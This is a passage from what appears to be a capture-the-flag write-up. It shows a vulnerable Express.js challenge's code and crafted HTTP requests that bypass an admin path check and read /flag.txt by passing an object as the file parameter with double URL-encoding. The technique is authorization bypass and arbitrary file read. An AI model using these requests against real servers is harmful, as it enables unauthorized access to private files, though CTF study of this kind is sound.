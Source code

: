 Initially, we need to bypass the middleware:
```javascript
app.use((req, res, next) => {
    if([req.body, req.headers, req.query].some(
        (item) => item && JSON.stringify(item).includes("flag")
    )) {
        return res.status(403).end();
    }

    if (req.originalUrl.toLowerCase().startsWith("/admin") && req.headers.authorization !== `Bearer ${ADMIN_AUTH}`) {
        return res.status(403).end();
    }

    next();
});
```

This would require us to do a bit of code analysis of `express.js`. The `req.originalUrl` is created as:
```javascript
req.originalUrl = req.orignalUrl || req.url
```

The `req.url` is the url after `GET` in http request. And the requests are resolved through pathname. The first condition can be bypassed by providing a full url after `GET`:
```
GET http://localhost/admin/debug HTTP/1.1
Host: localhost:3000
```

At the reading part we have:
```javascript
const file = req.query.file ?? "/etc/hostname";
console.log("file requesting: ", file)
const contents = await fsp.readFile(file);
```

The `file` parameter can be dictionary as extended parameters are not set to `false`. The `readFileSync` and similar functions such as `readFile` can accept a dictionary with a specified set of attributes. The `object` to read a file is:
```javascript
let obj = {}
obj['protocol'] = 'file:'
obj['href'] = 'a'
obj['hostname'] = ''
obj['pathname'] = '/flag.txt'
```

Furthermore, the value of `pathname` can be `urlencoded as well: 
```
GET http://localhost/admin/debig?file[href]=a&file[protocol]=file:&file[hostname]=&file[pathname]=/fl%2561g.txt HTTP/1.1
```

When the above url is requested, the file be read. However, an error will trigger at following line:
```javascript
if (file.includes("flag")) {
    return res.status(404).end();
}
```
